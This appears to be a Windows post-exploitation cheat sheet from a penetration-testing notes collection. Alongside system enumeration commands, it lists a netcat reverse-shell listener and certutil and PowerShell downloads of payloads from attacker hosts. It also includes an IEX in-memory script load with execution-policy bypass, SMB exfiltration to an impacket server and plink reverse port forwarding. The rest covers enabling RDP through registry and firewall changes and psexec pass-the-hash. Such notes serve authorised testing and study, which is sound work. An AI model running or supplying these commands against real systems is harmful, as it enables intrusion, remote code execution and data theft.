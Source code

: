 ```yaml
---
title: Windows Commands
---
```


## Reverse Shell

https://gist.github.com/dejisec/8cdc3398610d1a0a91d01c9e1fb02ea1

nc -lvp 4444

## Windows Commands

Find installed patches, architecture, OS version

```powershell
systeminfo
```

Machine name

```powershell
hostname
```

What is my username?

```powershell
whoami
```

What users/localgroups are on the machine?

```powershell
net users
net localgroups
```

More info about a specific user. Check if user has privileges

```powershell
net user <user1>
```

User privilege

```powershell
whoami /priv
```

Disk Drive

```powershell
wmic logicaldisk get caption,description,providername`
```

Download file in the target machine

```powershell
certutil -urlcache -f http://[attackerIp]/payload.exe payload.exe
```

File and directory permission

```powershell
cacls /Desktop/test.txt
accesschk.exe -qwsu "<user>" "<path>"
accesschk.exe -qwsu "Users" *
```

wmic service filter

```powershell
wmic service where "name= 'OpenSSHd'" get name,pathname,status
```

List of Service

```powershell
wmic service get Caption,StartName,State,pathname
```

List of Process

```powershell
wmic process get ProcessID,ExecutablePath
```

Network

```powershell
ipconfig /all
route print
arp -A
```

Port forward & connect form linux to SMB

```powershell
# Port forward using plink
plink.exe -l root -pw mysecretpassword 192.168.0.101 -R 8080:127.0.0.1:8080
```

```powershell
winexe -U [user]%[password] //[IP] "cmd.exe"
```

> Note: in ssh_config uncomment PermitRootLogin yes

Firewall Configuration

```powershell
netsh firewall show state
netsh firewall show config
```

Evarioment Variable

```powershell
set
```

How well patched is the system?

```powershell
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

Loading Powershell scripts directly in memory

```powershell
powershell.exe -ep Bypass -c "IEX ((new-object net.webclient).downloadstring('http://10.0.1.14:80/shell.ps1'))"
```

Downlaod file with Powershell

```powershell
powershell.exe -ep Bypass -c iex ((New-Object System.Net.WebClient).DownloadFile("https://attacker/payload.exe", "C:\Users\user1\payload.exe"))
```

SMB Exfiltration

```powershell
kali_op1> impacket-smbserver -smb2support kali `pwd`
MD-Wind> net use \\10.10.14.14\kali
```

Information about process

```powershell
tasklist /v
```

Run a command as another user

```powershell
runas /user:<localmachinename>\administrator cmd
```

Process info

```powershell
wmic process get Caption,Commandline,Processid
```

Service info

```powershell
wmic service get name,status,startname,pathname
```

Process Owner

```powershell
tasklist /V /FI "IMAGENAME eq explorer.exe"
wmic process where "name='taskeng.exe'" call GetOwner
```

Process List

```powershell
powershell.exe Get-Process  | Select-Object Id,Name,Path
```

Current Connection

```powershell
netstat -lpno
```

Start and stop a service

```powershell
net start/stop servicename
```

Installed applications

```powershell
psinfo.exe -s
```

UAC is enable?

```powershell
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
```

Content of a file

```powershell
more file.txt
```

RDP from Kali

```powershell
rdesktop -u user -p password <IP> -g 95%
```

Enable rdp

```powershell
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

```powershell
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```

Psexec

```powershell
python3 psexec.py user:password@<ip>
```

```powershell
python3 psexec.py -hashes LMHASH:NTHASH user@<ip>
```
